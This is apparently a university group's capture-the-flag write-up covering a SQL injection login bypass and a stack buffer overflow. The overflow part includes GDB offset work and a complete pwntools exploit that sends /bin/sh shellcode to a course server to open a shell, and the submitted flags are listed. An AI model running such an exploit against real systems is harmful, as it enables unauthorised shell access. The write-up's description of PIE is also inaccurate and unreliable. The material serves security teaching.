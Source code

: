 # CTFs - Week 8 / 9
______________

# Task 1

## Vulnerability

Analysing the source code within the file given (index.php), we can see that there's a SQL injection opportunity within lines 40 to 42, since the query used is a plain String and is not prepared utilizing PHP API's.

## Exploit to login as admin

To login and admin, we prompted into the username input space the following string: 

![picture 1](images/6dca35f388d6b8b0ece0e24b256832eedb3c17402809f4ca5828c408986769fd.png)

Note: since that password field is required to proceed the login form, we can simply input an arbitrary value, for example '123456789'.

And with that, we are granted login to the admin page and we encounter our flag.

![picture 2](images/f6d181d337cfd85865eb4b8233860664d2eb1d119b34149be649ec2a52e55a64.png)  

____________

# Task 2

## Checksec - relevant information

![picture 2](images/f5e37a0b05f1ff3bd0a475d2a429551a65ac1c185e43f28c5aa0ff12150d66cd.png)  

#### What is PIE?
Also know as Position-Independent Executable, this is a security feature that prevents the execution of code from a fixed memory location. This is done by randomizing the memory location of the code, which makes it harder for an attacker to exploit the program.

We also noted that NX was disabled, that means that we are able to execute writeable memory.

## Vulnerability

## GDB - Memory Offsets

The next step is to determine the offset between the **ebp** and the **buffer** in memory.

Initially after trying to run the program using GDB, we encounter the following error:
![picture 2](images/dadf0cac19cb1157dcd8341017b889ff955f34fe157ecef08955d8313afc3996.png) 

This means that the generated output binary file still had it's default permissions, which are set to read-only, and thus we needed it to be executable. To do so, we ran the following command:
```bash
chmod +x program
```

1. We added a breakpoint on line 12, and then we run the program:
![picture 5](images/97856f3526a6786d407d55abb2cd72f84c69cf77c610c32fb9f1f3c764bf90ca.png)  
2. After that, we executed the program using run, and determinted the addresses of both **ebp** and **buffer**:
![picture 6](images/692658ce6fb11aa7b17e2c6ab37afbc83be62a276e4bfe23a5816a3eeffa263a.png)  

Now we know we can calculate the distance between the two:
```
0xffffd038 – 0xffffcfd0 = 0x68 = 104 bytes
```

This means that the returns address is **104 + 4 (108) bytes** away from the start of the buffer.

## Exploit

To wrap it up, after some search online, we found a template, that we adapted to our needs, for a simple exploit that uses a library names pwntools, which is a python library that makes it easier to exploit binaries:
```python
from pwn import *

e = context.binary = ELF("./program")
p = remote("ctf-fsi.fe.up.pt",4001)

# Gets the buffer address as a Integer
p.recvuntil("buffer is ")
stack_base = int(p.recv(10),16)
# print(hex(stack_base))

# shellcode to open /bin/sh
payload = (
  '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f'
  '\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31'
  '\xd2\x31\xc0\xb0\x0b\xcd\x80'
).encode('latin-1') # 27 bytes

# fills the payload with 'junk'
payload = payload.ljust(108,b'$')
# overwrite return address
payload += p32(stack_base) 

p.sendline(payload)
# opens interactive mode
p.interactive()
```

The exploits consists of:
1. Getting the base address of the stack
2. Inject the shellcode into the payload
3. Fill the payload with junk until we arrive at the **EIP** (retun address)
4. Append to the final of the payload the leaked base address
5. After that, our code should be redirected to the shell code, meaning we have acess to a shell, and with that, we are able to obtain our flag

![picture 7](images/098d6941a447e4e8b1056dc9e0f48a752c8161fb1936e09dd52748c24bcfed70.png)  

____________

# Submitted Flags
- **CTF 1** --> flag{3a8b687081ff43602559a817074a0332}
- **CTF 2** --> flag{11b9c1ebd2c2ada47feb37e5c9316449}

____________

# Group 7, 03/10/2022
 
* Afonso Jorge Farroco Martins, up202005900@fe.up.pt
* Eduardo Filipe Leite da Silva, up202005283@fe.up.pt
* José Diogo Pinto, up202003529@fe.up.pt